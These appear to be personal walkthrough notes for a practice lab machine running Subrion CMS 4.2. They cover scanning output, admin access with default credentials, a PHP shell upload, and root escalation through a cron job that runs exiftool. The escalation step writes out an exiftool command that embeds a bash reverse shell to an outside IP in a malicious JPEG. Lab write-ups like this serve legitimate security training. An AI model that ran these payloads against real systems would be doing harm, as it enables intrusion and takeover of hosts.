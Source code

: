 ____
IP=192.168.179.163
Linux

# Nmap
| PORT   | STATE  | SERVICE    |
|--------|--------|------------|
| 22/tcp | open   | ssh        |
| 80/tcp | open   | http     |

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# 80 - http 

- exfiltrated.offsec

### whatweb

```python
http://exfiltrated.offsec/ [200 OK] Apache[2.4.41], Bootstrap, Cookies[INTELLI_06c8042c3d], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.179.163], JQuery, MetaGenerator[Subrion CMS - Open Source Content Management System], Open-Graph-Protocol, PoweredBy[Subrion], Script, Title[Home :: Powered by Subrion 4.2], UncommonHeaders[x-powered-cms], X-UA-Compatible[IE=Edge]
```

- Subrion CMS 4.2
![[Pasted image 20240131215339.png]]
### robots.txt

```txt
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```

#### /admin panel

Default credentials --> admin:admin

![[Pasted image 20240131215552.png]]

Pentestmonkey shell.phar upload

https://vk9-sec.com/subrion-cms-4-2-1-arbitrary-file-upload-authenticated-2018-19422/


# PrivEsc

Sudo version 1.8.31 --> not vulnerable

## Pspy64

![[Pasted image 20240131221434.png]]

```bash
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

## Exiftool

![[Pasted image 20240131222435.png]]

https://github.com/OneSecCyber/JPEG_RCE

```bash
https://github.com/OneSecCyber/JPEG_RCE.git
cd JPEG_RCE
exiftool -config eval.config runme.jpg -eval='system("/bin/bash -i >& /dev/tcp/192.168.45.222/1234 0>&1")' 
```

It will create malicious jpg file

![[Pasted image 20240131223538.png]]

https://github.com/mr-tuhin/CVE-2021-22204-exiftool










